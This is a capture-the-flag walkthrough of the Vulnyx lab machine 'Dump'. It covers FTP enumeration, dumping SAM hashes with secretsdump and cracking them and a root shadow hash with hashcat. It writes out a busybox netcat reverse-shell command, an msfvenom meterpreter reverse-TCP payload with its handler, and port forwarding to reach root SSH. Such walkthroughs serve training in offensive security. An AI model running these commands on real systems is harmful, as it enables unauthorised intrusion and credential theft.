 
# Machine Info

Dump was an easy rated Linux machine on Vulnyx, Involves dumping user hashes from SAM file and cracking it those hashes using hashcat for initial access. For root access, user dumper have writes to read the `/etc/shadow` file, which leaks the root user password hash which leads to get access to root user on the box.

![image](https://github.com/iammR0OT/Vulnyx/assets/74102381/dd219dbf-43be-4651-a80c-1aab03adda85)

# User 
## Scanning through Nmap

First of all we will go with nmap to scan the whole network and check for services running on the network. To scan the whole network and find all the open ports i use **-p-** used to scan the whole **65535** ports with **--min-rate 10000** to scan network faster from **nmap** and i found a list of open ports on the network and get only the open ports using different terminal tools like **cut**, **tr** etc. 

```shell
$ nmap -p- --min-rate 10000 192.168.190.134 -oN ini.txt && cat ini.txt | cut  -d ' ' -f1 | tr -d '/tcp' | tr '\n' ','
21,80, 4200
```

Now Let's run the depth scan on these specific ports using 

```bash
$ nmap -p21,80,4200 -sC -sV -A -T4 192.168.190.134 -oN scan.txt
```

- **-sC** is to run all the default scripts
- **-sV** for service and version detection
- **-A** to check all default things
- **-T4** for aggressive scan
- **-oN** to write the result into a specified file

```bash
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      pyftpdlib 1.5.4
| ftp-syst:
|   STAT:
| FTP server status:
|  Connected to: 192.168.190.134:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx   2 root     root         4096 Feb 09 10:46 .backup [NSE: writeable]
80/tcp   open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
4200/tcp open  ssl/http ShellInABox
| ssl-cert: Subject: commonName=dump
| Not valid before: 2024-02-09T11:53:57
|_Not valid after:  2044-02-04T11:53:57
|_ssl-date: TLS randomness does not represent time
|_http-title: Shell In A Box
```

Through Nmap, we found three open ports, **21 FTP** with anonymous login allowed, port **80 HTTP** web and port **4200 ssl/HTTP** also web. Becasue we are allowed to login as anonymous user on FTP, lets dive into it and check if we found any useful file or folder their.

### 21 FTP

After login to FTP using anonymous credientials, we found a **.backup** directory. after looking into the **.backup** directory, we found two files **sam.bak** and **system.bak**. 
So what are **sam** and **system** files, **sam** file is a file in windows that holds the **usernames** and **NTLM** password hashes of local users on system. This is file is encrypted and it's key is stored in a registry file called **system**. You can learn more about it [here](https://juggernaut-sec.com/dumping-credentials-sam-file-hashes/)

<img  alt="Pasted image 20240415093027" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/44353a42-8d79-4d12-af4e-e1002c4abfea">

So in our case we have both system and sam file, lets try to dump the password hashes from it, we can use tool called secretsdump.py from impacket toolkit for that purpose
**SecretsDump.py** is a Python tool by Impacket that can extract secrets from targets. **SecretsDump.py** performs various techniques to dump hashes from the remote machine without executing any agent there. For **SAM** and **LSA** Secrets (including cached creds) it tries to read as much as it can from the **registry** and then saves the hives in the target system `(%SYSTEMROOT%\Temp dir)` and reads the rest of the data from there. For **NTDS.dit** it uses the **Volume Shadow Copy Service** to read NTDS.dit directly from the disk or it can use the parser module to read NTDS.dit files from a copy.
secretsdump.py dump **usernames** and their **password** hashes for us, if we were facing a windows machine, then we can perform **pass-the-hash** attack to gain access on the machine, without decrypting it. But, because we are on Linux machine, we have to decrypt it.

```bash
$ secretsdump.py -sam sam.bak -system system.bak LOCAL
```

- **-sam** to parse sam file
- **-system** to parse system file
- **LOCAL** because we parse these files locally

<img alt="Pasted image 20240415094024" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/7e50225e-4f01-474a-9f68-80f987dd230b">

```NTLM
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:45ab968b011c0b6cfd1e9e1b30ff40cc:916da1881680fcb38f2ce951f666d6be:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:d0d506281c0dbfe0a16f57e412411d37:::
dumper:1004:ebd1b59f4f5a6843aad3b435b51404ee:7324322d85d3714068d67eccee442365:::
admin:1005:7cc48b08335cd858aad3b435b51404ee:556a8f7773e850d4cf4d789d39ddaca0:::
```

After saving these hashes let's fire up hashcat to perform dictionary attack to decrypt these hashes.
Hashcat is **a password cracking tool used for licit and illicit purposes**. Hashat is a particularly fast, efficient, and versatile hacking tool that assists brute-force attacks by conducting them with hash values of passwords that the tool is guessing or applying

```bash
$ hashcat -m 1000 hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
```

- **-m** to specify module number of NTLM hash which is 1000 in our case

<img  alt="Pasted image 20240415095409" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/292758d4-c28c-4db8-9438-a3c219c2d6f0">

We were successfully able to crack the password of user **admin** and **dumper**

```passwords
dumper:7324322d85d3714068d67eccee442365:1dumper
admin:556a8f7773e850d4cf4d789d39ddaca0:blabla
```

### 80 HTTP

On port 80 their is a simple apache default page is runnig. feroxbuster also didn't found any useful path their.

<img  alt="Pasted image 20240415100300" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/4959a089-4f9d-47ce-8e36-f7d7b1111be4">

### 4200 HTTPs

On TCP port 4200, there is a some kind of login page is working called dump login.

<img alt="Pasted image 20240415095754" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/9ea8608c-b05b-41c0-a7b6-5e2cbb996bf2">

I tried to login to it using admin credentials but admin credentials didn't worked their, then I tried to login using dumper credentials and it worked and we got a shell on the box as dumper user. Their is also our user flag is present.

<img  alt="Pasted image 20240415100118" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/20f35516-de07-4c82-abaa-1f1241f6d4b7">

Let's get shell on our box using **busybox** and make it stable.

```bash
$ busybox nc 192.168.190.129 9001 -e sh
$ nc -lvnp 9001
$ ptyhon3 -c "import pty; pty.spawn('/bin/bash')"
$ export TERM=xterm
```


# Privilege Escalation

Linpeas reveals that we have a read access to `/etc/shadow` file, a file that contains user's passwords hashes on Linux system. 

<img  alt="Pasted image 20240416102724" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/f6cf35b5-0896-4e50-958a-fc6f29057a75">

Lets, copy root hash and try to break it using hashcat on our local machine.

```bash
$ hashcat -m 1800 root-hash rockyou.txt

# Cracked Hash
$6$jzcdBmCLz0zF2.b/$6sok07AjDc3TN3oeI/NqrdZ6NSQly3ADW6lvs3z5q.5GDqsCypL8WtL7ARhzDcdYgukakXWeNbiIP7GyigCse/:shadow123
```

Linpease also discover that port **22 ssh** was running locally on the machine. I decided to forward it to my attacker machine. 

<img  alt="Pasted image 20240416103403" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/6b2026cc-6e0a-493d-a7ee-1ca975946436">

First, lets get a shell on **metasploit** and then perform port forwarding, there are also  many other ways to perform port forwarding but the metasploit one is more simple and easy.
To get a shell on metasploit, first create a elf file using **msfvenom** and then deliver it on victim machine using python3 server.

```bash
$ msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=192.168.190.133 LPORT=4444 -f elf -o shel.elf

# Python server
$ python3 -m http.server 80
```

<img alt="Pasted image 20240415103604" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/a67df831-57e4-413c-a994-9ece495be28b">

After that run a listener on metasploit using

```bash
$ use exploit/multi/handler
$ set payload linux/x64/meterpreter_reverse_tcp
$ set LHOST=<attacker IP>
$ set LPORT=<that you specified in msfvenom payload>
$ run
```

Now whenever someone will run our **shel.elf** file, we will receive a shell back on our metasploit listener.

<img  alt="Pasted image 20240415104043" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/8bde988f-b67e-42e1-b0d7-c8fabebaed39">

Now Lets forward our port 22 to our attacker machine using:

```bash
$ portfwd -l 101 -p 22 -r 127.0.0.1
```

- **-l** for local port
- **-p** for remote port
- **-r** remote host

<img  alt="Pasted image 20240416104103" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/4f3d40ad-0603-4c03-9883-4627d124bfe7">

Now let's get a shell as root using ssh and grab our root.txt.

```bash
$ ssh root@127.0.0.1 -p 101
```

<img  alt="Pasted image 20240416104235" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/f26a30e0-d44f-4d6d-b80e-9ce33d001f57">


# Happy Hacking ❤
